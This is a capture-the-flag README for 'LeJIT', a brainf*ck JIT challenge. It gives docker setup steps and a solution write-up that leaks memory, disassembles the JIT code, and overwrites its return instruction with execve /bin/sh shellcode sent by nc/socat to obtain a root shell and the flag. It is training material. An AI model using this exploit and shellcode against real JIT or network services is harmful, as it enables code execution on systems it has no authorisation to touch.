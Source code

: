 # LeJIT

```text
We're taking a whole new way of looking at brainf*ck. Go and check it out!

nc 172.17.0.2 31337
```

The binaries or source code will not be provided with this problem.

## Setup

1. `docker build -t lejit .`
2. `docker run --rm -d --read-only lejit`

## Brief Dev Description

JIT compiler for brainf*ck, but the execution tape shares a memory map with the memory tape.

## Solution

Using your preferred shellcode (MUST be null-terminated):

```shell script
(echo "<<<<<<<<<<<<<,[>,]"; printf "\x50\x48\x31\xD2\x48\x31\xF6\x48\xBB\x2F\x62\x69\x6E\x2F\x2F\x73\x68\x53\x54\x5F\xB0\x3B\x0F\x05\x00"; sleep 1; echo "cat /root/flag.txt") | socat - tcp-connect:172.17.0.2:31337
```

## Short Writeup

We begin by exploring the memory tape, which shortly concludes that there are entries already
in the memory tape.

```
<.>  Go back, print, go forward
```

In order to explore this further, we write a short script to iterate up the address space:

```shell script
# print last 100 and remove the prompt and welcome text
python3 -c 'print("<"*100+".>"*100)' | socat - tcp-connect:172.17.0.2:31337 | xxd -p -c1 | tail -n 105 | head -n 100 | xxd -p -r > mem.bin
```

After some iterations of this, it becomes clear that this contains some arbitrary data. Knowing
this is a JIT compiler, we try objdump:

```shell script
objdump -D -b binary -mi386:x86-64 mem.bin
```

Which shows some somewhat expected behaviour for brainfuck JIT:

```text
0000000000000000 <.data>:
   0:	74 24                	je     0x26
   2:	38 48 89             	cmp    %cl,-0x77(%rax)
   5:	54                   	push   %rsp
   6:	24 40                	and    $0x40,%al
   8:	48 89 4c 24 48       	mov    %rcx,0x48(%rsp)
   d:	48 b8 d0 8e ed 63 1a 	movabs $0x561a63ed8ed0,%rax
  14:	56 00 00 
  17:	ff d0                	callq  *%rax
  19:	48 8b 7c 24 30       	mov    0x30(%rsp),%rdi
  1e:	48 8b 74 24 38       	mov    0x38(%rsp),%rsi
  23:	48 8b 54 24 40       	mov    0x40(%rsp),%rdx
  28:	48 8b 4c 24 48       	mov    0x48(%rsp),%rcx
  2d:	3c 00                	cmp    $0x0,%al
  2f:	0f 85 23 00 00 00    	jne    0x58
  35:	48 81 c6 01 00 00 00 	add    $0x1,%rsi
  3c:	48 3b f1             	cmp    %rcx,%rsi
  3f:	0f 82 07 00 00 00    	jb     0x4c
  45:	48 81 ee 00 80 00 00 	sub    $0x8000,%rsi
  4c:	48 c7 c0 00 00 00 00 	mov    $0x0,%rax
  53:	48 83 c4 28          	add    $0x28,%rsp
  57:	c3                   	retq   
  58:	48 c7 c0 01 00 00 00 	mov    $0x1,%rax
  5f:	48 83 c4 28          	add    $0x28,%rsp
  63:	c3                   	retq
```

From this, we can discern a few things:
 - `%rsi` is the tape pointer (as shown by instruction at 0x35 and given the script used)
 - A function is used to output the character under the pointer (instruction at 0x17)
 - It is likely that the instruction at 0x57 is the means by which the JIT function normally returns (`%rax` is linux
 calling convention for return value, which is set to 0 at 0x4c)

By this, we know to make an attack where we overwrite the standard return with our shellcode.

The following BF payload is used (with a newline terminator):

```
<<<<<<<<<<<<<,[>,]
```

This moves back 13 (to retq) and overwrites it with input until encountering a null value.

[This shellcode](https://www.exploit-db.com/exploits/42179) is used (note the null terminator):

```
\x50\x48\x31\xD2\x48\x31\xF6\x48\xBB\x2F\x62\x69\x6E\x2F\x2F\x73\x68\x53\x54\x5F\xB0\x3B\x0F\x05\x00
```

Finally, these are combined to create our exploit:

```shell script
(echo "<<<<<<<<<<<<<,[>,]"; printf "\x50\x48\x31\xD2\x48\x31\xF6\x48\xBB\x2F\x62\x69\x6E\x2F\x2F\x73\x68\x53\x54\x5F\xB0\x3B\x0F\x05\x00"; cat -) | nc 172.17.0.2 31337
```

With our shell, we read the flag:

```shell script
cat /root/flag.txt
```

With which we acquire the flag.

## Possible Difficulty Enhancements

 - It is entirely possible to solve this challenge entirely without source code or binaries,
   but if this proves to be too difficult, then we'll give them the binary.
